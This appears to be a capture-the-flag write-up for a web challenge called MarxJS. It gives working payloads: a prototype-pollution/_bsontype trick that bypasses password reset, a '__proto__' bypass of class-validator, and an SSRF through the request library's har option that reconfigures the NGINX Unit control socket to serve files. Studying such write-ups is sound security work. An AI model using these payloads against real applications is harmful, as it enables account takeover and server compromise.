

# MarxJS
Realword web

For start this game, you should set up a SMTP-based email account to `/config/default.json`

From attachment, get the information of admin’s account

Use payload
```json
{“email”:{“address”:”email”,”_bsontype”:”aa”},”__proto__”:{}}
```
to bypass function of reset password.

After logining, We access to  the admin’s page, It is a website to check the alive of website. From the code we can get that it check website with method of HEAD, the code is follow
```javascript
@AdminRequired()
  @ValidateBody(Url)
  async checkstatus(ctx: Context) {
    await rp.head(ctx.request.body.url).then(() => { this.status = true; },
        () => { this.status = false; } );
    return new HttpResponseRedirect(this.status ? '/admin?alive=true' : '/admin?error=true');
}
```

From  Dockerfile, we can know that it build website by unit NGINX Unit.
[Configuration — NGINX Unit](https://unit.nginx.org/configuration/#examples)

And then we can change the language by use socket server
```json
{
        “listeners”: {
            “127.0.0.1:8300”: {
                “pass”: “applications/blogs"
            }
        },

        "applications": {
            “blogs”: {
                “type”: “php”,
                “root”: “/www/blogs/scripts/“
            }
        }
    }

``` 

After fuzzing,  we know that use `{‘__proto__’:{}}` can bypass the check of `class-validator` . And then, from module of request, we can through object har to reset method of the request,  that is we can send a data of post by `request.head`, for read the follow source code
```javascript
// /lib/har.js

function test (type) {
  return req.postData.mimeType.indexOf(type) === 0
}
if (test(‘application/x-www-form-urlencoded')) {
  options.form = req.postData.paramsObj
} else if (test(‘application/json’)) {
  if (req.postData.jsonObj) {
    options.body = req.postData.jsonObj
    options.json = true
  }
} else if (test(‘multipart/form-data’)) {
  options.formData = {}

  req.postData.params.forEach(function (param) {
    var attachment = {}

    if (!param.fileName && !param.contentType) {
      options.formData[param.name] = param.value
      return
    }

    // attempt to read from disk!
    if (param.fileName && !param.value) {
      attachment.value = fs.createReadStream(param.fileName)
    } else if (param.value) {
      attachment.value = param.value
    }

    if (param.fileName) {
      attachment.options = {
        filename: param.fileName,
        contentType: param.contentType ? param.contentType : null
      }
    }

    options.formData[param.name] = attachment
  })
} else {
  if (req.postData.text) {
    options.body = req.postData.text
  }
}
```


From overlap the object of request, we can send a specific json data to  cover  the unix socket. Then, build json data like that
```json
{"url": {"uri": "http://unix:/var/run/control.unit.sock:/config/", "har": {"method": "PUT", "postData": {"__proto__": {"text": "{\"listeners\": {\"0.0.0.0:13333\": {\"pass\": \"applications/realworldcms\"}},\"applications\":{\"realworldcms\":{\"type\": \"php\",\"root\": \"/\",\"index\": \"flag\"}}}"}}}}, "__proto__": {}}
```

To make the flag reflect the path of page. Finally, visiting the root to get flag


## Reference
- [几则NodeJS的安全问题 – Wupco’s Blog](http://www.wupco.cn/?p=4520)
